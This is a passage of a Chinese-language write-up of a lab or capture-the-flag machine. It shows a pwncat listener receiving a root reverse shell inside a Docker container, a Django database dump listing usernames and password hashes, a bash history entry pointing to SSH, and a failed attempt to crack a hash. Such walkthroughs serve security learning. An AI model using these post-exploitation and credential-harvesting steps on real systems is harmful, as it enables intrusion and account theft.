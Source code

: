 ## User - Docker - root

```bash
┌─[✗]─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 9999
[17:34:56] Welcome to pwncat 🐈!
[17:37:23] received connection from 192.168.56.119:59728
[17:37:24] 192.168.56.119:59728: registered new host w/ db
(local) pwncat$ back
(remote) root@8b39a559b296:/home# whoami
root
```

### 环境探测

使用 `PEASS-ng` 或者 `CDK` 均能检测到我们正处于 Docker 容器内

### 数据库文件读取

在站点目录中，发现一个数据库文件 `/home/site/db.sqlite3`

下载下来进行读取

|  id |                                     password                                    |          last\_login         | is\_superuser |   username  |
| :-: | :-----------------------------------------------------------------------------: | :--------------------------: | :-----------: | :---------: |
|  1  | pbkdf2\_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo= | "2020-10-03 10:43:47.229292" |       1       | aniqfakhrul |
|  11 | pbkdf2\_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg= | "2020-10-02 10:16:45.805533" |       0       |   testing   |
|  12 | pbkdf2\_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik= | "2020-10-03 10:44:10.758867" |       0       |    ramsey   |
|  13 | pbkdf2\_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE= | "2020-10-02 14:42:59.192571" |       0       |    oliver   |
|  14 | pbkdf2\_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY= | "2020-10-02 14:43:15.187554" |       0       |     wan     |

### 命令行历史

```bash title="/root/.bash_history"
ssh ramsey@172.17.0.1
```

从中得到一个用户名 `ramsey`

### 密码爆破

根据数据库中得到的数据，可以得知以下信息

```plaintext
Username: ramsey
Password: pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=
```

尝试直接对密码发起爆破，但是未找到结果
